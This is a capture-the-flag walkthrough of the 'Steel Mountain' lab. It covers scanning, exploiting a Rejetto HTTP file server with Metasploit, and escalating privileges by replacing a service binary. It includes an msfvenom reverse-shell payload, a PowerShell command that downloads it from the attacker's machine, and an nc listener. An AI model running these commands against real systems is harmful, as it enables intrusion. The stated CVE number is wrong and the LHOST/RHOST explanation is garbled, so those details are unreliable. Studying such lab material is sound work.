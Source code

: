 # Steel Mountain

Directly starting from Task_2.

#### Question:Scan the machine with nmap. What is the other port running a web server on?
#### Solution:
##### Enumeration Part

Run the following nmap command in order to scan the target machine.

`sudo nmap -sS --top-ports 200 10.10.139.106`

Open the link to see the output of nmap: 
![Alt text](./Screenshots/Steel_Mountain/nmap_output.png)

We can see that http-proxy is running on port 8080. So,
##### Answer: 8080

#### Question: Take a look at the other web server. What file server is running?
#### Solution:
Open the browser and enter the url along with port 8080 to see is there anything or not, 
I shown up a web page. Where there was a link for http file server as shown in the screenshot

![Alt text](./Screenshots/Steel_Mountain/file_server_link.png)

As I clicked, I shown up a page:
![Alt text](./Screenshots/Steel_Mountain/service_running.png)

##### Answer: Rejetto http file server

#### Question:What is the CVE number to exploit this file server?
#### Solution: 
I searched about it's vulnerabilities on google and found the correct cve number.
#### Answer: 2024-6287

#### Question: Use Metasploit to get an initial shell. What is the user flag?
#### Solution:
I opened metasplout using command:
`msfconsole`

Then I searched for hfs keyword using command:
`search hfs`

It showd me followind output:
![Alt text](./Screenshots/Steel_Mountain/metasploit_exploits.png)

Then I selected 4th exploit and then set it's values:
Conventionally, LHOST and LPORT means the attackers machine's informationa and LHSOT and LPORT means target's information. I filled that information and ran the exploit. See the output:
![Alt text](./Screenshots/Steel_Mountain/meterpreter.png)

Now, I changed my directory to `c:\Users\bill\Desktop\` and read the content of user.txt:
![Alt text](./Screenshots/Steel_Mountain/user_flag.png)

#### Privilege Escalation:
Now, We need to upload a PowerUp.ps1 file to target machine. For that purpose, download it via the given link and then use the command below to transfer the file to target machine:
`upload upload /path/to/PowerUp.ps1`
This path is the path of the script in your attacker machine.
![Alt text](./Screenshots/Steel_Mountain/upload_powerup.png)

Now, in meterpreter, hit the command:
`shell`
Then go to the path where Powerup.ps1 script is present and enter the followind command:
`powershell -c ". .\PowerUp.ps1; Invoke-AllChecks"`

Above command will shown up the service that can be exploited, a part of it is shown below:

![Alt text](./Screenshots/Steel_Mountain/script_output.png)

Now, I am going to replace the actual file with our maclicious file (payload), so when service will start, instead of running legitimate exe file, it will run maclicious file and we will get the root shell.

##### Creating paylod

using msfconsole, we can make our payload:
`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.25.176 LPORT=4443 -f exe -o Advanced.exe`

now inside the shell of target machine, run the followind command to copy the payload from attacker's machine:
`powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://10.8.25.176:8000/Advanced.exe' -OutFile $env:USERPROFILE\\Desktop\\ASCService.exe"`

Now I copied this payload to the desired path where legitimate exe file was present, I overwrite that with my payload:
`copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare"`
#### Error resolution: 
If you get error while copying it, then first stop the service and then try to copy. Command to stop the service is given ahead.

Now, I stopped the service using the command:
`net stop AdvancedSystemCareService9`
Now, run the netcat on our attacking machine, I ran with the command:
`nc -lvnp 4443`

Now, start the service using the command:
`net start AdvancedSystemCareService9`

Boom! We've got the root shell at our attacking machine.
![Alt text](./Screenshots/Steel_Mountain/root_shell.png)

Now, to get the flag, move the path "C:\Users\Administrator\Desktop", and run following command:
`type root.txt`
Here's the flag!.

![Alt text](./Screenshots/Steel_Mountain/root_flag.png)


